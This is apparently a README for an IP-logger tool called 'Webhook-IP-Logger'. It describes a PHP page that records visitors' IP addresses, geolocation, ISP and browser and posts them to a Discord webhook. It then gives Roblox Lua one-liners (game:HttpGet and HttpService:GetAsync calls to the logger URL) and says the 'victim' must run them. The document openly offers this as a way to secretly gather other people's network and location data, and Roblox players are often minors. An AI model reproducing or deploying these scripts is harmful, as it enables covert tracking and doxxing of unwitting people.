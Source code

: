 # Webhook-IP-Logger
This is a PHP IP that sends people IPs and IP information to a discord webhook.
# Features
- Grabs the IP then gets info about it after that it sends it to a webhook you have entered.  
- Gets Geo Location & ISP aswell as the browser
- Filters out bots
- ROBLOX Lua script for it (for exploits that have HttpGet or ROBLOX Studio)
# How to use it on ROBLOX
Step 1: Complete the tutorial above on getting an IP logger link, unless you have your own site.  
Step 2: Put the link of the IP logger in between the qoutations. Exploits is for a script that will only work on  
**Note: The victim will need to execute these scripts. Executing this yourself will only get your own IP.**  
**[Exploits]**  
```lua
game:HttpGet("Site Here")
```
**[Roblox Studio]**  
```lua
game:GetService("HttpService"):GetAsync("Site Here")
```
**[Example]**  
```lua
game:HttpGet("https://mysite.com/iplogger.php")
```
